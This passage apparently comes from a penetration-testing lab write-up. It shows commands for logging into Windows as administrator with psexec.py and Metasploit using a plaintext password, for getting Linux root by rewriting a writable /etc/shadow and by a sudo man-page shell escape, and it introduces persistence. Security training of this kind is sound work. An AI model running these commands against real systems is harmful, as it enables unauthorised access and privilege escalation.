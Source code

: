 #### Authenticate as administrator

**Method 1 :** PSExec

```bash
kali@kali> psexec.py administrator@10.3.29.122  # administrator:hello_123321
```

**Method 2 :** MSF module

```bash
msf6> use exploit/windows/smb/psexec
msf6> set rhosts 10.3.29.122
msf6> set smbuser administrator
msf6> set smbpass hello_123321
msf6> run
```

### Linux privilege escalation

#### Weak permissions

Here the `/etc/shadow` file is writable, inject a new password for `root`.

```bash
student@kali> find / -not -type l -perm -o+w
student@kali> cat /etc/shadow
student@kali> openssl passwd -1 -salt abs password123
# The output is the hash $1$abs$d0N35Mn8MMuul2VQClbOx1
student@kali> vi /etc/shadow
```

```bash
student@kali> su root  # password123
root@kali> cat /root/flag
```

#### SUDO privileges

```bash
kali@kali> sudo -l
kali@kali> sudo /usr/bin/man ls
```

Once you are in the manual page, type `/bin/bash` and it will open a root terminal.

```bash
root@kali> cat /root/flag
```

### Windows persistence

#### Create a new service

* Persistence consists of techniques that adversairies use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code
* Gaining an initial foothold is not enough, you need to setup and maintain persisten access to your targets.
* Reference on https://attack.mitre.org.
